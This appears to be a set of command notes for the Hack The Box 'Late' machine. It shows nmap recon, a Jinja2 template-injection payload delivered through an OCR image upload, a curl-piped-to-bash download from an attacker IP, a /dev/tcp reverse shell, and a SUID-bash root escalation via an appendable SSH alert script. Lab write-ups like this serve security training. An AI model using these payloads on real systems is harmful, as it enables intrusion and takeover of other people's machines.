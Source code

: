 # 🔎 HTB: Late – Command & Exploit Notes

---

## ⚙️ Recon

### Nmap Scan
```bash
nmap -p- --min-rate 10000 10.10.11.156
nmap -p 22,80 -sCV 10.10.11.156
```
- **Open Ports**:
  - `22/tcp`: [SSH](SSH) - OpenSSH 7.6p1 (Ubuntu 18.04)
  - `80/tcp`: [HTTP](HTTP) - nginx 1.14.0

### Hosts File Entry
```bash
echo "10.10.11.156 late.htb images.late.htb" | sudo tee -a /etc/hosts
```

### Fuzzing Subdomains
```bash
wfuzz -u http://10.10.11.156 -H "Host: FUZZ.late.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 9461
```
- Found: `images.late.htb`

### images.late.htb
- Online image OCR interface.
- Upload image ➔ converts to text ➔ returned as `results.txt`
- Mentions **Flask** backend

---

## 🚀 Initial Foothold (svc_acc)

### Vulnerability Discovery
- Image upload returns parsed text in a rendered Flask template.
- Test with image containing:
```
{{ 7*7 }}
```
- Returned: `49` ➔ **SSTI confirmed**

### Payload Trials
- Use [PayloadsAllTheThings Jinja2 RCE](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Injection/README.md#jinja2)
- Payload:
```jinja
{{ cycler.__init__.__globals__.os.popen('id').read() }}
```
- **Font Troubleshooting**:
  - Use **FreeMono** or similar monospaced font.
  - Goal: Accurate character recognition (underscores, parens, quotes)

### Reverse Shell
```jinja
{{ cycler.__init__.__globals__.os.popen("curl http://10.10.14.6/r | bash").read() }}
```
Create `/r` file on local server:
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.6/443 0>&1
```
Then:
```bash
python3 -m http.server 80
nc -lnvp 443
```
- Shell returned as `svc_acc`

---

## 🔒 Privilege Escalation to root

### File Enumeration
```bash
ls -l /usr/local/sbin/ssh-alert.sh
lsattr /usr/local/sbin/ssh-alert.sh
```
- `ssh-alert.sh` runs on SSH login (from `/etc/pam.d/sshd`)
- Has **append-only (a)** extended attribute
- Script is **owned by svc_acc** and **appendable**

### Exploit via SSH Login Trigger
Append reverse shell prep to the script:
```bash
echo -e "cp /bin/bash /tmp/.0xdf\nchmod 4755 /tmp/.0xdf" >> /usr/local/sbin/ssh-alert.sh
```
Then re-login via SSH:
```bash
/tmp/.0xdf -p
```
- Root shell acquired.

---

## 🔊 Flags

### User
```bash
cat /home/svc_acc/user.txt
```

### Root
```bash
cat /root/root.txt
```

---

## 🔜 Beyond Root
- Debug web stack:
  - Nginx ➔ Gunicorn ➔ Flask App
- Logins trigger `pam_exec.so` ➔ `ssh-alert.sh` ➔ Email alert
- Overwrite abuse via append-only shell drop

---

Let me know if you want this converted for Obsidian, PDF, or Markdown export ✨

